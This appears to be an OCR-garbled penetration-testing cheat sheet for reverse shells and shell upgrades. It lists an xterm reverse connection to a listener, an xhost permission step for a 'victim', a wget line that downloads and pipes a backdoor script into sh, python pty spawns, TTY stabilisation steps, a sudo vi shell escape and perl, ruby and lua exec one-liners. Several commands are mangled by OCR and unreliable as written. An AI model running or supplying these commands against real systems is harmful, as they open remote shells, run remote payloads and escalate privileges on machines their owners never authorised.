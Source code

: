 ```text
xterm -display 10.0.0.1:1
o Start Listener: Xnest: 1
o Add permission to connect: xhost +victimP
```

### Other

```text
wget hhtp:// server /backdoor.sh -O- | sh Downloads and runs backdoor.sh
```

### spawn shell


```text
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

or

```
sudo - I
python -c 'import pty; pty. spawn("/bin/bash”)’
sudo -u webadmin vi
ESC +:+ !/bin/sh
bash - i
whoami
```

```text
try ctrl + z
stty raw -echo 
fg
```

```text
echo os.system('/bin/bash')
```

```text
/bin/sh -i
```


```text
perl —e 'exec "/bin/sh";'
```

```text
perl: exec "/bin/sh";
```

```text
ruby: exec "/bin/sh"
```

```text
lua: os.execute('/bin/sh')
```
